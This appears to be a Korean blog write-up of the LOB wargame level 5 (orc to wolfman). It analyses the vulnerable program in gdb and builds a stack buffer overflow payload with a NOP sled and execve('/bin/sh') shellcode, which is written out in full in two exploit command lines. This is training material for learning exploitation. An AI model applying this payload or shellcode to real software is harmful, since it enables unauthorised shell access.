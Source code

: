 ```yaml
---
title:  "[LOB] level 5: orc >> wolfman "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 08:46:36

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 5

**orc / cantata**

wolfman.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147016263-c0deb5b7-aa7e-4e4b-96da-7b86f2f4abec.png)

하면할수록 조건이 추가되는데 소름이 돋을 지경이다

buffer를 memset으로 초기화도 시킨다  
나머지 조건은 그대로

스택의 구조를 보면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc  
argv[1]

높은주소

일듯하다

그래도 gdb는 빠질수 없지  
![image](https://user-images.githubusercontent.com/69203345/147054712-6529e861-c065-4e0f-b6f0-c44ffb48bce5.png)  
밑에 더있는데 다 nop이니까 안올림

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  buffer의 위치

0x8048506 <main+6>: cmp DWORD PTR [%ebp+8],1  
이부분이 argc의 비교문 일것이다 따라서 argc의 위치는 [ebp+8]일것

0x80485ce <main+189>: call 0x8048440  <strcpy>  위에 strcpy의 인자로 push되는 인자들을 보면 <main+176>에 [%ebp+12]의 위치에 있는 인자가 push되는데  argv[1]이라고 생각이 든다

스택을 좀더 정확히 해보자면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc    [ebp+8]     #값은 1  
argv[] [ebp+12]

높은주소

작성할 페이로드 A*44 +ret[4] + 쉘코드

>./wolfman \`python -c 'print "A"\*44+"\xff\xff\xff\xbf"+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147061721-1db78919-49a2-47ac-8e6d-f8937187e50d.png)

gdb로 core확인

![image](https://user-images.githubusercontent.com/69203345/147061973-639702c5-4b5d-4163-8238-491b3697a437.png)

0xbffffc50으로 리턴주소를 사용하겠다

>./wolfman \`python -c 'print "A"\*44+"\x50\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

Illegal instruction이 뜬다면 \x90의 갯수를 바꿔보자

![image](https://user-images.githubusercontent.com/69203345/147063440-f6cb7f43-5544-416e-9282-30037332c3c2.png)